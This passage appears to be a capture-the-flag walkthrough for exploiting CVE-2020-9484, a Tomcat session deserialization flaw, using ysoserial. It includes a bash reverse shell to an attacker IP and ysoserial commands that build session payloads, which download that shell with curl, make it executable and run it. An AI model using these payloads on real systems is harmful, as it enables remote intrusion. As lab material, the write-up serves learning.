 Let's try to exploit that vulnerability, time to begin exploitation.


# EXPLOITATION
---

We'll need to use `ysoserial` and `java 11`, we can find a PoC exploit here to guide ourselves:

https://github.com/savsch/PoC_CVE-2020-9484

I'll switch to kali for this in order to make it easier to handle java versions. 

Time to get `ysoserial`:

https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar

We also need `java11`, we can install it on kali with:

```bash
sudo apt install openjdk-11-jdk
```

If you have another version of java, you need to change it to `java 11`, we can do it with:

```
sudo update-alternatives --config java
```

On here, select `java 11`:

![Pasted image 20250724132218.png](../../IMAGES/Pasted%20image%2020250724132218.png)

Time to begin, what we need to do is create a reverse shell payload using bash first, this one will do the trick:

```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.14.21.28/4444 0>&1'
```

Save it as shell.sh and let's proceed, now, we need to use `ysoserial` to create `.session` files which will download, give `777` permissions to our shell and execute, it, we can do the following:

```java
java -jar ysoserial-all.jar CommonsCollections2 "curl http://10.14.21.28:8000/shell.sh -o /tmp/shell.sh" > downloadFile.session

java -jar ysoserial-all.jar CommonsCollections2 "chmod 777 /tmp/shell.sh" > chmodFile.session

java -jar ysoserial-all.jar CommonsCollections2 "bash /tmp/shell.sh" > executeFile.session
```
